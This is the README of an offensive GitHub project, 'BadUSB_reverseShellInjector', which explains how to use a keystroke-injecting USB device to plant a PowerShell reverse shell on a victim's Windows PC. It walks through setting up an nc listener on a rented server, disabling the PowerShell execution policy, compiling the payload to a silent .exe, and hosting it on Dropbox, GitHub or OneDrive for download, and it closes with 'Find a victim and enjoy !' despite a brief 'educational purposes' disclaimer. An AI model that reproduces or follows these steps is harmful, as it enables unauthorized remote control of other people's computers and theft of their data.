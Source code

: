 # BadUSB_reverseShellInjector
https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector
# Warning ⚠️
Everything in this repository is **strictly** for educational purposes. Notice **I am not responsible** for stolen data. **You are responsible** for your actions using developed script for **BadUSB**.
# About ℹ️
This **script** allows you to take **control** of a **PC** with **reverse shell** attack.
### NB n°1 (for arduino BadUSB)
Sometimes, you will see something like this : 
``` 
Keyboard.press(KEY_LEFT_CTRL);
Keyboard.press(KEY_LEFT_ALT);
Keyboard.press(173);
Keyboard.releaseAll(); 
```
This is only to write these characters : "@", "\\". But it depends on the computer's layout, so adapt these characters thanks to this [site](https://www.csee.umbc.edu/portal/help/theory/ascii.txt) and the sequence you actually use to wirte these characters with your keyboard. (or switch the keyboard layout to French).
### US Layout
For US layout you only have to replace by this for "\\" :
```
Keyboard.press(92);
Keyboard.releaseAll();
```
And by this for "@" :
```
Keyboard.press(64);
Keyboard.releaseAll();
```
### NB n°2
You can customize the **delay** according to the speed in which you plug the **BadUSB**.
### NB n°3
When you plug the BadUSB in a PC you  have to wait for the caps lock to flash to unplug it.
# Getting Started ✔️
## Requirments
1. Have a **BadUSB**.

2. Install **Arduino software** [here](https://www.arduino.cc/en/software) (if you use a BadUSB which is based on arduino);

3. [Have an ssh server](https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector#linode);

4. [Download PS2EXE](https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector#ps2exe);

5. Have a victim with **Windows OS** installed in his PC;
## Linode
1. Create an account [here](https://www.linode.com/);

2. Go to create, linode;

3. Select Ubuntu 18.04 LTS distribution;

4. Select the region closest to where you live;

5. Select shared CPU, Nanode 1GB;

6. Choose your server label and password;

7. Create linode;

8. Now open a terminal and type the ssh access command (ssh root@your_ssh_ip_adress);

9. You are now connected to your ssh server;

10. To make your ssh server always listening type this commands :
```
screen
nc -lnvp 87 -s your_ssh_ip_adress
CTRL + A
D
```
11. Your ssh server is now listening and you can exit;

12. To resume your listening screen, just type :
```
screen -r
```
## PS2EXE
1. Go in this [link](https://github.com/MScholtes/PS2EXE) and click on green button on right top of main page. Then click on "Download Zip" and extract zip file.

2. Start powershell as admin and type the following commands :
```
Set-Loction $env:HOMEPATH\Downloads\PS2EXE-master\Win-PS2EXE
Set-ExecutionPolicy Unrestricted -Force
Import-Module ps2exe
win-ps2exe
```

3. * Select source file (the file you want to convert).
   * Select target file (the directory where you want your file to be).
   * Select icon file (you can download some icons [here](https://iconarchive.com/)).
   * Check Supress output and Suppress error output.
   * Then click on compile button to finish the convertion.
## Install
1. Download this repository;

**Linux :**
```
git clone https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector
cd BadUSB_reverseShellInjector
```
**Windows :** Click on green button on right top of main page. Then click on "Download Zip" and extract zip file.

2. Replace LINK in [.txt](https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector/blob/main/BadUSB_reverseShellInjector.txt) at line 28 or in [.ino](https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector/blob/main/BadUSB_reverseShellInjector.ino) at line 93;

3. Replace LINK [here](https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector/blob/main/script.ps1) at line 8 and replce IP and PORT [here](https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector/blob/main/reverseShell.ps1) at line 3;

4. [Convert reverseShell.ps1 file in .exe file](https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector#ps2exe);

5. Put the .ino or .txt file in your **BadUSB**;

5. Find a victim and enjoy !
## Requirments for victim PC
* Turn off caps lock.
* Switch the keyboard layout to French (or adapt the code according to your layout).
# How to set a link for wget the script ⬇️
## Dropbox
1. Create a dropbox account [here](https://www.dropbox.com);

2. Upload your file;

3. Copy the link of the file and change ?dl=0 by ?dl=1;

4. You will get a link like this : https://dropbox.com/s/link/YOURFILE?dl=1;

5. Now put this link in the [.ino](https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/BadUSB_passStealer.ino) or [.txt](https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/BadUSB_passStealer.txt) file;
## Github
1. Create a Github account [here](https://github.com/signup);

2. Create a public repository;

3. Upload your file;

4. Go to your file page and click on RAW button;

5. Copy the RAW page link and put it in the [.ino](https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/BadUSB_passStealer.ino) or [.txt](https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/BadUSB_passStealer.txt) file;
## One Drive
1. Create a One Drive account [here](https://signup.live.com/signup);

2. Upload your file file;

3. Follow this [tutorial](https://mangolassi.it/topic/19276/how-to-configure-a-onedrive-file-for-use-with-wget)

4. Put the link you got in the [.ino](https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/BadUSB_passStealer.ino) or [.txt](https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/BadUSB_passStealer.txt)
